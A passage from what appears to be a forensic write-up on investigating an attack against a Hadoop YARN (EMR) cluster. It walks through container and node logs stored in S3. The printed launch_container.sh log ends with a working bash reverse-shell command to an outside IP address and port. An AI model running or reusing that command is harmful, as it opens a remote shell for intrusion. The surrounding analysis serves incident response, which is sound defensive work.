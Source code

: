 The `launch_container.sh` log will have exection details for the application when it was called. In the log output below we can see that the last line contains the reverse shell code that we included in the POST request above when we ran our malicious applicaiton.

```bash
...

# Creating copy of launch script

cp "launch_container.sh" "/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/launch_container.sh"

chmod 640 "/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/launch_container.sh"

# Determining directory contents

echo "ls -l:" 1>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

ls -l 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0015/container_1590702911576_0015_01_000001/directory.info"

echo "find -L . -maxdepth 5 -ls:" 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0015/container_1590702911576_0015_01_000001/directory.info"

find -L . -maxdepth 5 -ls 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

echo "broken symlinks(find -L . -maxdepth 5 -type l -ls):" 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

find -L . -maxdepth 5 -type l -ls 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

echo "Launching container"

exec /bin/bash -c "bash -i >& /dev/tcp/3.94.211.164/6767 0>&1"
```

At this point we know what was ran, but we don't know which node the malicious code was executed. This is going to be critical to discover so that we can conduct further analysis of the system to see what else the attacker did. To do this we need to change to a new directory within S3 to find the node logs. Node logs can be found here: `node/NODE INSTANCE ID/applications/hadoop-yarn`

These logs are local logs for each instance in the cluster and show all of the application submissions. A sample output is below.

{{< highlight bash "linenos=table,hl_lines=9 27,linenostart=1" >}}
2020-06-20 20:09:04,277 INFO SecurityLogger.org.apache.hadoop.ipc.Server (Socket Reader #1 for port 8041): Auth successful for appattempt_1590702911576_0016_000001 (auth:SIMPLE)

2020-06-20 20:09:04,280 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.ContainerManagerImpl (IPC Server handler 32 on default port 8041): Start request for container_1590702911576_0016_01_000001 by user dr.who
